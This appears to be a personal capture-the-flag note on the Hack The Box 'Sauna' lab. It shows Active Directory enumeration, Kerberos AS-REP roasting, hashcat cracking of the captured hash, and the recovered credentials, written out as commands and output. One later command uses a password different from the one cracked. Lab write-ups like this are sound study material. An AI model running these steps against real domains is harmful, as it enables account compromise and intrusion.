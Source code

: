
```
enum4linux -a 10.10.10.175
```

```
Domain Name: EGOTISTICALBANK                                                  
Domain Sid: S-1-5-21-2966785786-3096785034-1186376766
```

Let's get some valid users as we came to know about the Domain Name
```
kerbrute userenum -d EGOTISTICALBANK --dc 10.10.10.175 userlist.txt -t  100
```

```
2024/05/01 05:30:52 >  [+] VALID USERNAME:       administrator@EGOTISTICALBANK
2024/05/01 05:31:09 >  [+] VALID USERNAME:       hsmith@EGOTISTICALBANK
2024/05/01 05:31:12 >  [+] VALID USERNAME:       Administrator@EGOTISTICALBANK
2024/05/01 05:31:21 >  [+] VALID USERNAME:       fsmith@EGOTISTICALBANK
```
![[Pasted image 20240501053829.png]]

So we are getting something even though we are got nothing from smb for not will enumerate it later. Will see asproasting and see if we get any ticket hash or not.

Users we got
```
administrator@EGOTISTICALBANK
hsmith@EGOTISTICALBANK
Administrator@EGOTISTICALBANK
fsmith@EGOTISTICALBANK
```

Don't do this mistake in the exam
we have to provide the Domain name and not the host name for the attack
![[Pasted image 20240501054417.png]]

ASProasting
```
GetNPUsers.py EGOTISTICALBANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.175
```
![[Pasted image 20240501054433.png]]

```
$krb5asrep$fsmith@EGOTISTICALBANK@EGOTISTICALBANK:ac1285fbd11b34772846f44a434c0bd7$8dd65bb22872b02a09fabf87fee11a01bd86250c429f91a7a1ba8e07d0f5e31adc6996b46b9c32c6f2a67d63fffbc15b32fb8a2f674804e60d9ffc26e956427ac6f2a7ca2e18bc017e1e775d72e86d936febbe0fdd84b6ec561b853e020c0d6f660e0afa659c500c6f92e43ce019dc120e7de3cb0db2e1b17be30a4569e6686aa16b276941d1b5c8bb7fd1a77a2b43367b285939700d3248aecc537b36dcb3e9bb0f06f08b29b2d019685e724c244d35d52cbcb0df03f33a15be35e099a112c20a63fe6f1e2dda21adc0bb9f18cf5788e401a16836fcf837b1580c8ecfbdd240c2eca5ee19de40a475410d2c77a298f7d555fcc76ae7e2ea0b
```

So let's see if we can crack it or not.

Hashcat
https://hashcat.net/wiki/doku.php?id=example_hashes
![[Pasted image 20240501054727.png]]

```
 .\hashcat.exe -m 18200 -D 2 .\hashes4.txt .\rockyou.txt -O
```
![[Pasted image 20240501054841.png]]

Username:
```
fsmith
```

```
Thestrokes23
```


If we want to see like this password is valid for any user than we can do it in this way
```
crackmapexec smb 10.10.10.175 -u ~root/HackTheBox/Sauna/valid_user.txt -p Washington10URedmond10U
```

